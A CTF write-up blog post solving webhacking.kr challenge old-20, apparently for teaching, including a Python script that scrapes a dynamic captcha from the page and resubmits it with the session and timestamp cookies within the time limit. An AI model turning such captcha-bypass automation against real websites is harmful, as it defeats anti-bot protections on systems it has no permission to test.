```yaml
---
layout: post
permalink: /posts/webhackingkr/old-20
title: "Webhacking.kr write-up: old-20"
date: 2020-09-05 11:31
tags: webhacking.kr scripting
description: "As for today's challenge, we are going to look at some simple scripting."
---
```


Link | point | tag
-----|-------|----
[old-20](https://webhacking.kr/challenge/code-4/) | 200 | Scripting

Howdy there, welcome and welcome back for another webhacking.kr web-based CTF style challenge. As for today's challenge, we are going to look at some simple scripting.

![question](/assets/images/webhackingkr/2020-09-05-old-20/1.png)

For your information, you have 2 seconds to complete the form with a dynamic captcha verification. So, how does the system knew it was 2 seconds? Look at the **st** cookie parameter that records the current timestamp. However, changing the value does not yield any good results. The only way to solve the challenge is by good-o-scripting.

```python
import requests
from bs4 import BeautifulSoup

#Remember to change the challCookie according to your session id
challCookie = ''
cookies = {'PHPSESSID':challCookie}
url = 'https://webhacking.kr/challenge/code-4/'

#Obtain the page information
r = requests.get(url, cookies=cookies)
response = r.text
soup = BeautifulSoup(response, 'html.parser')

#Obtain the 'st' cookie
for c in r.cookies:
        st = c.name
        st_val = c.value

#extract the captcha
input_lst = soup.find_all('input')
captcha = str(input_lst[3])
captcha = captcha[83:93]

#submit the request
data = {'id':'1', 'cmt':'1', 'captcha':captcha}
cookies = {'PHPSESSID':challCookie, 'st':st_val}
response = requests.post(url, data=data, cookies=cookies)

print(response.text)
```

Be sure to install the [BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/bs4/doc/#installing-beautiful-soup) and change the challCookie value.

![solve](/assets/images/webhackingkr/2020-09-05-old-20/2.png)
